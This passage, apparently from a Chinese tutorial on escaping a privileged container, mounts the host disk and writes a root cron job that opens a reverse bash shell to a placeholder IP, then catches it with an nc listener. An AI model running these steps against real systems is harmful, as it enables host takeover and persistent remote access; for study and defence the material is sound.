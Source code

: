 ```
mkdir /nuoyan
mount /dev/vda1 /nuoyan
```

![](images/format,png.jpeg)

5、写入计划任务到宿主机

```
echo '* * * * * bash -i >& /dev/tcp/x.x.x.x/2100 0>&1' >> /nuoyan/var/spool/cron/root
```

![](images/format,png.jpeg)

6、开启 nc 监听，成功接收到宿主机反弹的 shell

![](images/format,png.jpeg)
